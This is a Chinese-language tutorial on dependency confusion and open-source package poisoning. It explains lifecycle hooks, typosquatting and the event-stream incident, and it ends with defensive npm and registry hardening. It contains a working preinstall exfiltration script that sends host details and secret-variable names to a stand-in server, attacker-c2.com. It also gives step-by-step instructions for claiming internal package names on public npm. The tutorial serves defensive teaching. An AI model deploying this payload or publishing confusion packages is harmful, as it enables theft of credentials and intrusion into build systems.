

# 现代软件供应链安全：依赖混淆(Dependency Confusion)与恶意开源组件投毒

---

## 0. 基础前置知识扫盲：软件供应链到底是什么？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在过去，黑客要入侵一家企业，需要寻找这家企业自己写的代码中的 SQL 注入或文件上传漏洞。
但在现代软件开发中，**一个企业自己编写的业务代码往往只占 10%~20%，剩下的 80%~90% 全部来自第三方开源组件依赖库（NPM, PyPI, Maven, Go modules 等）**。

### 1. 通俗生活类比：五星级餐厅的“菜农投毒”
- **传统的 Web 渗透**：黑客像刺客，潜入餐厅后厨，试图在厨师做好的热汤里下毒（挖掘业务代码漏洞）。
- **软件供应链攻击**：黑客根本不去餐厅后厨，而是直接伪装成供货商，**往餐厅采购食材的“批发菜市场”里下毒**！
  - 餐厅厨师（程序员）每天早晨自动进货（执行 `npm install` 或 `pip install`）；
  - 厨师在完全信任食材安全的情况下，把有毒的蔬菜直接倒进锅里烹饪并端给全网所有食客（自动打包并发布到全网生产服务器）！
  - 黑客不需要攻破餐厅的任何一道防线，就实现了对全公司乃至全球数十万用户的静默收割！



---

## 1. 依赖混淆（Dependency Confusion）致命漏洞深度剖析

2021 年 2 月，安全研究员 **Alex Birsan** 发表了一篇震撼全球网络安全界的论文，他凭借一种被称为 **“依赖混淆（Dependency Confusion）”** 的全新供应链攻击技术，**凭一己之力攻陷了苹果（Apple）、微软（Microsoft）、特斯拉（Tesla）、PayPal、Shopify、Netflix 等 35 家全球顶级巨头的内部网络**，并斩获了超过 13 万美元的巨额漏洞赏金！

### 1.1 漏洞产生的架构根源
现代企业在开发时，通常会同时使用两套组件仓库：
1. **公共开源仓库（Public Registry）**：如官方的 `npmjs.com`、`pypi.org`，存放所有人可用的开源库（如 `react`、`express`、`requests`）。
2. **企业内部私有仓库（Private Registry）**：企业内部搭建的私有源（如 Nexus、Artifactory），存放公司专属的核心私有库（例如内部认证库 `company-auth-lib`、内部风控库 `anticheat-core`）。

### 1.2 包管理器的“致命偏见”：最高版本号优先（Highest Version Wins）
当企业的 CI/CD 机器或开发者电脑执行 `npm install company-auth-lib` 时，包管理器（如 npm 或 pip）的解析器会同时向**内部私有仓库**和**公网公共仓库**查询该包是否存在。
- 此时，内部私有仓库中该包的版本是：`company-auth-lib: 1.2.0`；
- 如果攻击者在公网 `npmjs.com` 上公开发布了一个**一模一样的同名包**，并将版本号拔高为：`company-auth-lib: 99.9.9`；
- **灾难爆发时刻**：
  包管理器默认遵循 **“语义化版本（SemVer）最新版本优先”** 的规则！它误以为公网发布了重大的安全更新补丁，**毫不犹豫地忽略了内网私有库，直接将公网攻击者的 `99.9.9` 恶意包下载到了内网环境**！

---

## 2. 无感知代码执行机制：生命周期钩子（Lifecycle Hooks）

初学者可能会问：“即便包管理器下载了恶意包，只要开发者在代码里没有主动调用恶意函数，黑客怎么可能拿到 Shell 呢？”

答案在于现代包管理器自带的**“生命周期脚本（Lifecycle Scripts）”机制**。

### 2.1 NPM 的 `preinstall` 与 `postinstall` 触发器
在 Node.js 生态中，`package.json` 允许开发者定义在安装依赖前/后自动执行的脚本：

```json
{
  "name": "company-internal-metrics",
  "version": "99.9.9",
  "description": "POC Dependency Confusion Package",
  "scripts": {
    "preinstall": "node index.js"
  }
}
```
**致命特性**：
只要目标机器执行了 `npm install company-internal-metrics`，**甚至根本不需要写任何 `require()` 或 `import` 语句**，NPM 在把文件写入 `node_modules` 的那一瞬间，就会自动调用系统 Shell 执行 `index.js`！

#### 武器化 PoC 代码（`index.js`）：
```javascript
const https = require('https');
const os = require('os');
const dns = require('dns');

// 收集受害者机器的内部网络指纹
const data = JSON.stringify({
    hostname: os.hostname(),
    username: os.userInfo().username,
    current_dir: process.cwd(),
    internal_ips: Object.values(os.networkInterfaces()).flat().map(i => i.address),
    env_secrets: Object.keys(process.env).filter(k => k.includes('TOKEN') || k.includes('KEY'))
});

// 通过安全通道回传至攻击者公网服务器
const req = https.request({
    hostname: 'attacker-c2.com',
    port: 443,
    path: '/log_victim',
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Content-Length': data.length
    }
});

req.write(data);
req.end();
```

### 2.2 Python 中的 `setup.py` 执行劫持
在 Python 生态中，当执行 `pip install package-name` 时，`pip` 会直接执行该包源码包根目录下的 `setup.py`。
攻击者只需重写 `setup.py` 中的 `install` 命令类，即可在安装阶段以当前用户的完整操作系统权限执行反弹 Shell！

---

## 3. 开源生态投毒进阶战术全景

除了依赖混淆，现代软件供应链还面临以下典型投毒手法：

### 3.1 仿冒拼写错别字攻击（Typosquatting）
攻击者利用程序员手工敲命令时的拼写错误（手抖打错字母），在公共仓库注册极为相似的包名：
- 正确的流行包：`cross-env`（每周数千万下载量的环境变量工具）
- 攻击者注册的恶意包：`crossenv` 或 `cross-env.js`
- 程序员不小心少打了一个减号，恶意包直接被引入工程，在后台静默窃取本地 `.env` 中的数据库与云厂商密钥！

### 3.2 账户劫持与维护者社交工程（Social Engineering & Maintainer Takeover）
- **真实案例（EventStream 供应链投毒事件）**：
  极度流行的开源库 `event-stream` 原作者因精力有限无暇维护。攻击者主动联系作者，承诺帮忙修复 Bug 并接管维护工作。作者将仓库所有权移交给该攻击者后，攻击者在依赖中悄悄注入了针对著名加密货币钱包（Copay）的比特币私钥窃取恶意代码，长达数月无人察觉！

---

## 4. CTF / 实战挖掘演练：从前端打包源码还原内部私有包名

### 攻击场景与信息收集方法：
攻击者怎么知道目标企业内部有哪些私有的包名？
答案往往藏在**已经发布上线的前端 Web 页面 JS Bundle 或开源构建文件中**！

#### 步骤 1：前端逆向排查内部包名
打开目标网站的前端源码（或利用开发者工具 Sources 面板）：
1. 寻找未剔除的 **Source Map 文件（`.js.map`）**；
2. 在压缩混淆的 JS 代码中全局搜索关键词：`webpack:///./node_modules/`；
3. 发现如下线索：
   ```text
   webpack:///./node_modules/@corp/auth-sso/dist/index.js
   webpack:///./node_modules/tesla-telemetry-internal/index.js
   ```
成功抓取到目标企业的内部私有依赖包名：`tesla-telemetry-internal`！

#### 步骤 2：验证公共仓库注册状态
在公网打开 `https://www.npmjs.com/package/tesla-telemetry-internal`：
页面显示 **404 Not Found**！
**结论**：该包名虽然在目标企业内部被频繁引用，但在全球公共公共 NPM 官方仓库中**从未被注册（属于完全无主状态）**！

#### 步骤 3：抢注同名恶意包并版本压制
1. 攻击者在 `npmjs.com` 注册账号；
2. 本地初始化一个同名包：`npm init`，包名设为 `tesla-telemetry-internal`，版本号强行设为 `99.9.9`；
3. 在 `package.json` 中植入 `preinstall` 脚本回传 OOB DNS 外带数据；
4. 执行 `npm publish`，将恶意包推送到全球公共仓库！

#### 步骤 4：静默等待并捕获内网权限
当目标企业的自动化 CI/CD 流水线在下一次构建生产版本时，打包机执行 `npm install`，公网恶意包被瞬间拉入内网 Runner 机器执行，攻击者公网 DNS/HTTP 监听器瞬间收到来自目标内网 IP 的回显报文，供应链入侵达成！

---

## 5. 蓝队企业级软件供应链纵深防御加固手册

1. **全面使用 Scoped 命名空间并锁定源（Scoped Packages）**：
   - 企业内部所有私有包**必须强制使用统一的作用域前缀**（如 `@company/auth-lib`）；
   - 在项目根目录的 `.npmrc` 中明确声明该作用域**只允许走内部私有源**：
     ```ini
     @company:registry=https://nexus.corp.internal/repository/npm-private/
     registry=https://registry.npmjs.org/
     ```
   - 彻底阻断包管理器向公共仓库查询 `@company/*` 下任何包的行为。
2. **在公网官方仓库抢先“占位”（Package Squatting Defense）**：
   - 企业安全团队应当主动将内部使用到的所有私有包名称，在公网 `npmjs.com` 和 `pypi.org` 上注册发布一个**没有任何代码的空壳占位包**，断绝攻击者抢注同名包的可能。
3. **CI/CD 环境强制开启确定性安装与哈希校验（Lockfile Enforcement）**：
   - **严禁**在生产构建中执行 `npm install`；
   - **必须**使用 `npm ci` 命令！`npm ci` 严格根据 `package-lock.json` 中的具体下载 URL、版本号和不可变哈希（`integrity: sha512-...`）进行校验安装，若公网版本不匹配直接终止构建并报错！
4. **私有制品仓库代理隔离（Upstream Proxy Shielding）**：
   - 在企业内部的 Nexus 或 Artifactory 代理仓库中配置上游屏蔽规则：**只要内部私有库中已经存在的名字，无论公网上是否有更高版本，私有仓库代理坚决不向上游公共源拉取**！
